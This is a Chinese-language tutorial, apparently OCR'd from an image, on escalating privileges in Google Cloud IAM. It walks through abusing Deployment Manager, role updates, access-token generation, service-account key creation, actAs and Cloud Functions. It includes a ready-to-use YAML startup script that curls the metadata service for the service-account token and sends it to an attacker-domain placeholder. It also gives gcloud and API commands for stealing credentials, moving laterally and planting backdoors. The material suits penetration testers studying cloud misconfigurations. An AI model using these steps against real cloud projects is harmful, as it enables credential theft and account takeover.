 #### IAM 权限
	绝大多数权限提升技术都是围绕成员的角色和权限进行的。 请记住，GCP 权限用于决定成员有权访问哪些资源
	● https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/
	● https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/
 ##### Deploymentmanager.deployments.create
	此权限允许您将资源部署为“cloudservices.gserviceaccount.com”，默认情况下具有编辑者角色。 攻击者可以滥用此权限来创建计算实例，添加启动脚本以通过元数据服务收集服务帐户访问令牌，最后将其发送回攻击者。
	第一步是创建用于设置计算引擎实例的 YAML 文件。
	请注意，启动脚本向元数据服务发出 curl 请求，然后它获取响应并将其发送到攻击者的计算机。 这个配置文件可以在下面找到，
	只需将 <ATTACKER-DOMAIN-HERE> 行替换为您的域或 ip：
	resources:
	- name: vm-created-by-deployment-manager
	  type: compute.v1.instance
	  properties:
	    zone: us-central1-a
	    machineType: zones/us-central1-a/machineTypes/n1-standard-1
	    disks:
	       deviceName: boot
	    type: PERSISTENT
	    boot: true
	    autoDelete: true
	    initializeParams:
	        sourceImage: projects/debian-cloud/global/images/family/debian-9
	    networkInterfaces:
	    - network: global/networks/default
	      accessConfigs:
	        - name: External NAT
	        type: ONE_TO_ONE_NAT
	    metadata:
	      items:
	      - key: startup-script
	        value: |
	            #!/bin/bash
	            apt-get update
	            apt-get install -y curl 
	            curl http://<ATTACKER-DOMAIN-HERE>/gce_token -d $(curl
	            http://169.254.169.254/computeMetadata/v1beta1/instance/service-accounts/default/token)
	    serviceAccounts:
	    - email: default
	      scopes:
	        - https://www.googleapis.com/auth/cloud-platform
	接下来，您需要使用部署管理器命令创建计算引擎
	如下所示：
	gcloud deployment-manager deployments create <DEPLOYMENT-NAME> --config <CONFIG-FILE-NAME>.yaml
	计算引擎启动后，您应该会收到带有新创建的访问令牌的回调
 ##### iam.roles.update
	角色只是权限的集合。 iam.roles.update 权限允许您向自定义角色添加其他权限。 如果您将自定义角色应用于您的帐户，您可以向该角色添加额外的权限，以便您升级您的权限，如下所示：
	> gcloud iam roles update <ROLE-NAME> --project PROJECT-ID>--permissions=<PERMISSION-1,PERISSION-2>
 ##### iam.serviceAccounts.getAccessToken
	在 gcloud 中，访问令牌充当帐户的临时凭证。 获得对另一个用户的访问令牌的访问权限允许攻击者以受害者身份向 gcloud 进行身份验证。 不幸的是，我找不到 gcloud cli 命令来执行此操作，但我们可以使用
	谷歌API如下图：
	>  curl -X POST -H "Authorization: Bearer "$(gcloud auth print-access-token) -H "Content-Type: application/json; charset=utf-8" -d "{ 'scope': [ 'https://www.googleapis.com/auth/iam','https://www.googleapis.com/auth/cloud-platform' ] }" https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/<TARGET-SERVICE-ACCOUNT>:generateAccessToken
 ##### iam.serviceAccountKeys.create
	iam.serviceAccounts.getAccessToken 允许您创建临时凭证，但此权限允许您创建附加到服务帐户的永久密钥。 然后可以使用这些密钥登录 gcloud
	> gcloud iam service-accounts keys create OUTPUT-FILE --iam-account=IAM_ACCOUNT
 ##### iam.serviceAccounts.actAs
	此权限允许您使用另一个服务帐户创建资源。例如，如果您想创建一个计算实例并将另一个服务帐户附加到该 VM，您将需要此权限以及创建 VM 的权限。
	在以下需要此权限才能工作的小节中可以找到更多示例。
	Cloudfunctions.functions.create
	此方法需要设置以下权限：
	● iam.serviceAccounts.actAs
	● Cloudfunctions.functions.create
	● Cloudfunctions.functions.sourceCodeSet
	● Cloudfunctions.functions.create
	在这里，我们正在创建一个云函数作为另一个服务帐户，当调用该服务帐户时，它将获取服务帐户访问令牌并将其发送到攻击者的机器。
	● 创建云功能
	● 附加服务帐号到云功能
	● 调用云功能
	    ○ 使用元数据服务获取访问令牌
	● 向攻击者发送凭据
 #### GCP IAM 权限提升工具
	Rhino Security Labs 还创建了一个工具，可用于搜索和利用这些错误配置：
	● https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation
	要使用此工具，您必须拥有有效的访问令牌和项目 ID。可以通过多种方式检索访问令牌和项目 ID，但最流行的方式之一是通过 SSRF。
	首先运行 enumerate_member_permissions.py 脚本
	> python3 enumerate_member_permissions.py --project xxxxx
	请注意，如果您没有正确的权限，该命令将失败并且您将无法检查权限升级，但是您可以使用蛮力方法，手动尝试所有的利用，直到一个有效。
	如果您确实拥有正确的权限，该命令将运行并将所有内容保存到一个文件夹中。 下一步是运行“python3 check_for_privesc.py”命令。 鉴于当前的 IAM 政策，这将检查您可以危害其他账户的所有可能方式
	根据结果，您将能够破坏多个帐户。 要实际运行漏洞利用，您需要移动到漏洞利用文件夹。 然后你只需选择你的漏洞利用，用你的详细信息编辑 python 文件，然后运行脚本。
	为其他帐户创建服务帐户密钥，如果成功，这将允许您以该服务帐户身份登录，这对于横向移动非常有用
	在文件iam.serviceAccountKeys.create.py中我们需要输入项目 id 和我们的目标服务帐户。 之后，运行脚本，它会询问您的访问令牌，脚本完成后，它将创建并输出目标服务帐户密钥
	接下来，您必须对“privateKeyData”进行 base64 解码，它应该为您提供一个 json blob。 此 json blob 是您的凭据。 获得凭据后，您可以使用 gcloud 通过以下命令以该用户身份登录。
	> gcloud auth activate-service-account --key-file=test_cred.json
	如果用户拥有比我们更高的权限，那么我们只需执行权限升级，如果他们没有，那么我们可以使用它进行横向移动。 此外，我们还可以使用相同的技术对用户进行后门。
	查看“check_for_privesc.py”脚本的输出即可了解您可以做什么